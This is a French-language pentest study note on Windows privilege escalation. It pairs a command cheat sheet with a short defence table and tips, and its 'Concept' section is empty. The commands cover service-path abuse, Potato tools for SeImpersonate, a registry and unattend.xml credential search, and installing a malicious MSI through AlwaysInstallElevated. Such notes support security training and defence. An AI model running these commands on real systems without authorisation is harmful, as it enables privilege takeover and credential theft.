

# 🪟 Privilege Escalation Windows

> [!info] **En 1 phrase**
> Passer d'un utilisateur limité à **SYSTEM/Administrateur** en abusant des services, des ACL,
> des tokens, des tâches planifiées ou des Potato (SeImpersonate).

---

## 🎯 Concept




---

## 🛠️ Exploitation

```powershell
# Automatisation d'abord
.\winpeas.exe quiet

# 1. Services
wmic service list full
sc qc <service>                    # binaire / path du service
icacls "C:\Program Files\X\"       # écriture ?
# unquoted path → créer C:\Program Files\X.exe

# 2. Potatoes (SeImpersonatePrivilege)
whoami /priv
GodPotato.exe -cmd "cmd /c whoami"
PrintSpoofer.exe -i -c cmd

# 3. Tâches planifiées
schtasks /query /fo LIST /v | findstr /i "task run"

# 4. Creds stockés
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon"
type C:\Windows\Panther\unattend.xml
reg query HKLM /f password /t REG_SZ /s

# 5. AlwaysInstallElevated (1+1) → MSI en SYSTEM
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
msiexec /quiet /qn /i evil.msi
```

---

## 🔍 Détection & Défense

| Réponse | Détail |
|---|---|
| **Services** | Binaire + dossier avec ACL restrictives, chemins quotés |
| **SeImpersonate** | Retirer le droit sur les services (sauf nécessité) |
| **Credential Guard** | Protège les creds mémoire |
| **LAPS** | Mdp admin local uniques |
| **Windows Defender / AppLocker** | Limiter les exécutables |

---

## ⚠️ Tips & Pièges

> [!tip] 💡 **winpeas en couleur**
> Les lignes **rouges** = pistes prioritaires (services modifiables, creds, AlwaysInstallElevated).

> [!warning] ⚠️ **Piège** : les Potatoes ne marchent plus sur les Windows récents sans service vulnérable (spoolsv, print spooler). Vérifie `whoami /priv` + services avant.

---

## 🔗 Liens

- [[DLL Hijacking|🧩 DLL Hijacking]]
- [[Privilege Escalation Linux|🐧 Privesc Linux]]
- [[Pass-the-Hash|🔑 Pass-the-Hash]]
- → Note complète : [[06 - Post-Exploitation|🕹️ Post-Exploitation]]
